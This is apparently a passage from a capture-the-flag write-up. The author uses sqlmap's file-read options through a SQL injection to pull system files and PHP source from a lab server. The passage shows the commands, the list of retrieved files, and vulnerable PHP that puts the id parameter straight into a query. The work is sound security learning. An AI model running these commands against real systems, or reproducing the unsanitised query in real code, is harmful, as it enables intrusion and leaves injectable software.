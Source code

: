 I thought to enter the username and password I got from SQLi to the admin panel. But it did not work, probably because password was hashed. It also looks like a pretty strong encryption. So, I decided to not even attempt to crack it.

 With the joy of learning a new tool, `sqlmap`, I found out that one can even retrieve some files using `--common-files` or `--file-read` arguments, wow. I tried that immediately, and saw that I could retrieve the source of the webpage, e.g.,  */var/www/html/index.php*


```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --common-files

...
...
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_profile
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_resolv.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_sysctl.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_index.php
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_apache2_apache2.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_hosts.allow
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_hosts.deny
...
```

There was nothing interesting in *index.php*. Then, I checked the other .php files that I discovered earlier: *portfolio.php*, */mail/contact_me.php*, and */administrat/index.php*.

In *portfolio.php*, I could see the SQL injection on `id` parameter clearly. There was also `require_once` call to *administrat/include/config.php*, which had the mysql database connection call. But, still no flag.
```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --file-read=/var/www/html/portfolio.php --batch
$ cat /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_portfolio.php

<?php
// Include config file
require_once "administrat/include/config.php";
?>
  <link rel="icon" href="favicon.ico" type="image/x-icon">
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet" type="text/css">
  <!-- Portfolio Modals -->

  <!-- Portfolio Modal 1 -->
 
    <div class="modal-dialog modal-xl" role="document">
      <div class="modal-content">
 
        <div class="modal-body text-center">
          <div class="container">
            <div class="row justify-content-center">
              <div class="col-lg-8">
                <!-- Portfolio Modal - Title -->
                <!-- Icon Divider -->
                <div class="divider-custom">
 
                <!-- Portfolio Modal - Image -->
                <img class="img-fluid rounded mb-5" src="img/portfolio/cabin.png" width="300" height="300">
                <!-- Portfolio Modal - Text -->
                <p class="mb-5"><?php
 
$id = isset($_GET['id']) ? $_GET['id'] : '';
 
$query = "SELECT * FROM portfolio WHERE id = $id";
if ($result = mysqli_query($link, $query)) {
```